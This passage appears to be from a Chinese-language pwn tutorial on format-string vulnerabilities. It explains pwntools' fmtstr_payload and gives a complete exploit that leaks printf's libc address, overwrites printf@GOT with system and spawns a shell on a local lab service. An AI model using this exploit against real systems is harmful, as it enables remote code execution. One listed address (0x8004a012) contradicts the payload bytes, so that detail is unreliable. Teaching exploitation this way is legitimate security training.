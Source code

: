 ```
```

上述代码中`autofmt = FmtStr(exec_fmt)`到这行的内容之前都讲过，接下来就是`fmtstr_payload`函数，这个函数的作用是用来生成格式化字符串漏洞写内存的payload.

上述代码的第一个参数为offset偏移，第二个参数是一个字典，意义是往key的地址，写入value的值，也就是往`0x804a010`地址写入数据`0xaaaaaaaa`

我们来看看输出的payload:
```
...
>>> payload = fmtstr_payload(autofmt.offset, {printf_got: system_add})
>>> payload
'\x10\xa0\x04\x08\x11\xa0\x04\x08\x12\xa0\x04\x08\x13\xa0\x04\x08%154c%11$hhn%12$hhn%13$hhn%14$hhn'
```

开头16bytes是4个地址:
```
0x0804a010
0x0804a011
0x0804a012
0x8004a012
```

然后是格式化字符串:`%154c`, 输出hex(154)==0x9a bytes的字符，再加上之前的16bytes地址，一共有0xaa bytes

第三部分也是格式化字符串: `%11$hhn%12$hhn%13$hhn%14$hhn`，往第11, 12, 13, 14个参数指向的地址写入一个值，该值等于之前输出的byte数，在这里就是0xaa

而偏移值为11, 所以第11个参数为payload头，也就是`0x0804a010`，然后以此类推

就是通过上述逻辑往相应地址写入相应值的


所以可以写出exp:
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'

p = remote("127.0.0.1", 10001)

# 获取printf的libc地址
printf_got = 0x804a010
leak_payload = "b%13$saa" + p32(printf_got)

p.sendline(leak_payload)

p.recvuntil("b")
info = p.recvuntil("aa")[:-2]
print info.encode('hex')

# 计算system的libc地址
print_add = u32(info[:4])
p_s_offset = 59600     # addr(printf) - addr(system)
system_add = print_add - p_s_offset

# 生成payload
payload = fmtstr_payload(11, {printf_got: system_add})

# 发送payload
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```

